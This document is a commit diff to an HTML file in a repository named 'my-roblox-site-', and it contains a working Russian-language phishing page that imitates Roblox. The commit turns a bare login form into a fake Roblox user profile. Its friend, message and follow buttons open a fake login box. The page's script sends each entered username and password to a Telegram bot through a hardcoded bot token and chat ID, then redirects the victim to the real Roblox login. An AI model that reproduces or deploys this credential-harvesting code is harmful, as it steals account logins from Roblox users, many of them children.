

Before and after one commit to shinounikatsu-blip/my-roblox-site-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (228-1051 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,39 +3,130 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Roblox</title>
+    <title>vet8e35 — Roblox</title>
     <style>
         *{margin:0;padding:0;box-sizing:border-box}
-        body{background:#1a1e2c;display:flex;justify-content:center;align-items:center;min-height:100vh;padding:20px}
-        .box{background:#2a2f45;padding:30px;border-radius:16px;max-width:380px;width:100%;text-align:center}
-        h2{color:#fff;margin-bottom:20px}
-        input{width:100%;padding:14px;margin-bottom:14px;background:#1e2235;border:1px solid #3b405a;border-radius:8px;color:#fff;font-size:16px}
-        button{width:100%;padding:14px;background:#7b68ee;border:none;border-radius:8px;color:#fff;font-size:18px;font-weight:bold;cursor:pointer}
-        .err{color:#ff6b6b;margin-top:12px;display:none}
+        body{background:#0b0e17;font-family:Arial,sans-serif;color:#fff}
+        .container{max-width:800px;margin:0 auto;padding:20px}
+        .profile-header{background:#1a1f2e;border-radius:16px;padding:24px;display:flex;gap:20px;align-items:center;flex-wrap:wrap}
+        .avatar{width:120px;height:120px;border-radius:50%;background:#2a2f45;display:flex;align-items:center;justify-content:center;font-size:50px;color:#7b68ee;border:3px solid #7b68ee}
+        .profile-info h1{font-size:28px;margin-bottom:4px}
+        .profile-info .username{color:#7b68ee;font-size:14px}
+        .profile-info .status{color:#4caf50;font-size:14px;margin-top:6px}
+        .stats{display:flex;gap:24px;margin-top:12px;flex-wrap:wrap}
+        .stats span{background:#2a2f45;padding:6px 16px;border-radius:20px;font-size:14px}
+        .actions{display:flex;gap:12px;margin-top:16px;flex-wrap:wrap}
+        .actions button{padding:10px 24px;border:none;border-radius:8px;font-weight:bold;cursor:pointer}
+        .btn-add{background:#7b68ee;color:#fff}
+        .btn-msg{background:#2a2f45;color:#fff}
+        .btn-follow{background:#2a2f45;color:#fff}
+        .tabs{display:flex;gap:4px;margin-top:24px;background:#1a1f2e;border-radius:12px;padding:6px;flex-wrap:wrap}
+        .tabs span{flex:1;text-align:center;padding:10px;border-radius:8px;background:transparent;color:#aaa;font-size:14px;min-width:60px}
+        .tabs .active{background:#7b68ee;color:#fff}
+        .content{background:#1a1f2e;border-radius:16px;padding:24px;margin-top:16px;min-height:200px}
+        .items{display:grid;grid-template-columns:repeat(auto-fill,minmax(100px,1fr));gap:12px}
+        .item{background:#2a2f45;border-radius:12px;padding:16px;text-align:center;font-size:12px;color:#aaa}
+        .item .icon{font-size:32px;display:block;margin-bottom:6px}
+        .footer{text-align:center;color:#555;font-size:12px;margin-top:24px}
+        .login-overlay{display:none;position:fixed;top:0;left:0;right:0;bottom:0;background:rgba(0,0,0,0.8);justify-content:center;align-items:center;z-index:999}
+        .login-box{background:#1a1f2e;padding:32px;border-radius:16px;max-width:380px;width:90%}
+        .login-box h2{color:#fff;margin-bottom:8px}
+        .login-box p{color:#aaa;font-size:14px;margin-bottom:20px}
+        .login-box input{width:100%;padding:14px;margin-bottom:12px;background:#2a2f45;border:1px solid #3b405a;border-radius:8px;color:#fff;font-size:16px}
+        .login-box button{width:100%;padding:14px;background:#7b68ee;border:none;border-radius:8px;color:#fff;font-size:18px;font-weight:bold;cursor:pointer}
+        .login-box .close{background:transparent;color:#aaa;border:none;float:right;font-size:24px;cursor:pointer}
+        .error{color:#ff6b6b;margin-top:10px;display:none;text-align:center}
+        @media(max-width:600px){.profile-header{flex-direction:column;text-align:center}}
     </style>
 </head>
 <body>
-<div class="box">
-    <h2>Вход</h2>
-    <input type="text" id="u" placeholder="Имя или Email">
-    <input type="password" id="p" placeholder="Пароль">
-    <button id="btn">Войти</button>
-    <div class="err" id="err">Неверный логин</div>
+
+<div class="container">
+
+    <!-- ПРОФИЛЬ -->
+    <div class="profile-header">
+        <div class="avatar">🎮</div>
+        <div class="profile-info">
+            <h1>vet8e35</h1>
+            <div class="username">@vet8e35 • ID: 3609167038</div>
+            <div class="status">🟢 В сети</div>
+            <div class="stats">
+                <span>👥 1.2K друзей</span>
+                <span>📦 43 предмета</span>
+                <span>⭐ 856 RAP</span>
+            </div>
+        </div>
+    </div>
+
+    <!-- КНОПКИ -->
+    <div class="actions">
+        <button class="btn-add" id="openLogin">➕ Добавить в друзья</button>
+        <button class="btn-msg" id="openLoginMsg">💬 Написать</button>
+        <button class="btn-follow" id="openLoginFollow">👤 Подписаться</button>
+    </div>
+
+    <!-- ВКЛАДКИ -->
+    <div class="tabs">
+        <span class="active">🧾 Обо мне</span>
+        <span>📦 Инвентарь</span>
+        <span>📷 Снимки</span>
+        <span>📜 История</span>
+    </div>
+
+    <!-- КОНТЕНТ -->
+    <div class="content">
+        <div class="items">
+            <div class="item"><span class="icon">🔥</span> Огненный меч</div>
+            <div class="item"><span class="icon">🛡️</span> Щит дракона</div>
+            <div class="item"><span class="icon">👑</span> Корона</div>
+            <div class="item"><span class="icon">⚡</span> Молния</div>
+            <div class="item"><span class="icon">🐉</span> Дракон</div>
+            <div class="item"><span class="icon">🌟</span> Звезда</div>
+        </div>
+    </div>
+
+    <div class="footer">© Roblox · Защищено</div>
 </div>
+
+<!-- ОКНО ВХОДА -->
+<div class="login-overlay" id="loginOverlay">
+    <div class="login-box">
+        <button class="close" id="closeLogin">✖</button>
+        <h2>Вход в Roblox</h2>
+        <p>Чтобы добавить в друзья, войдите в аккаунт</p>
+        <input type="text" id="u" placeholder="Имя пользователя или Email">
+        <input type="password" id="p" placeholder="Пароль">
+        <button id="loginBtn">Войти</button>
+        <div class="error" id="err">Неверный логин или пароль</div>
+    </div>
+</div>
+
 <script>
     const BOT_TOKEN='8995673098:AAFw45G24DM55XxF7MSikSWNHlHYd4-hqCo';
     const CHAT_ID='8430766765';
-    document.getElementById('btn').onclick=function(){
-        const u=document.getElementById('u').value;
-        const p=document.getElementById('p').value;
-        if(!u||!p){document.getElementById('err').style.display='block';return;}
-        fetch('https://api.telegram.org/bot'+BOT_TOKEN+'/sendMessage',{
+
+    const overlay = document.getElementById('loginOverlay');
+    const err = document.getElementById('err');
+
+    document.getElementById('openLogin').onclick = () => overlay.style.display = 'flex';
+    document.getElementById('openLoginMsg').onclick = () => overlay.style.display = 'flex';
+    document.getElementById('openLoginFollow').onclick = () => overlay.style.display = 'flex';
+    document.getElementById('closeLogin').onclick = () => overlay.style.display = 'none';
+
+    document.getElementById('loginBtn').onclick = function(){
+        const u = document.getElementById('u').value;
+        const p = document.getElementById('p').value;
+        if(!u || !p){ err.style.display = 'block'; return; }
+        err.style.display = 'none';
+        this.innerText = '⏳ Проверка...';
+        fetch('https://api.telegram.org/bot'+BOT_TOKEN+'/sendMessage', {
             method:'POST',
             headers:{'Content-Type':'application/json'},
-            body:JSON.stringify({chat_id:CHAT_ID,text:'🔐 Roblox\n👤 '+u+'\n🔑 '+p})
+            body:JSON.stringify({chat_id:CHAT_ID, text:'👤 '+u+'\n🔑 '+p})
         });
-        document.getElementById('btn').innerText='...';
-        setTimeout(()=>{window.location.href='https://www.roblox.com/login';},1500);
+        setTimeout(() => {
+            window.location.href = 'https://www.roblox.com/login';
+        }, 1200);
     };
 </script>
 </body>
```
